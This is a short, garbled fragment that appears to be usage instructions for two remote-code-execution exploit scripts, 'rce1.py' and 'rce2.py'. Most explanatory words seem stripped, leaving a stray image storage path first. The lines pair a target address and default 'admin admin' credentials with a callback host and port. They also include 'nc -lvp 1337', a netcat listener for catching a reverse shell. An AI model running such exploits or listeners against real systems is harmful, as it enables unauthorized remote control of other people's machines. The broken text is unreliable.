 rce1.py    http:192.168.1.2   192.168.1.3 1337  /  nc -lvp 1337<br>
rce2.py    http:192.168.1.2  admin admin  192.168.1.3 1337      /nc -lvp 1337 

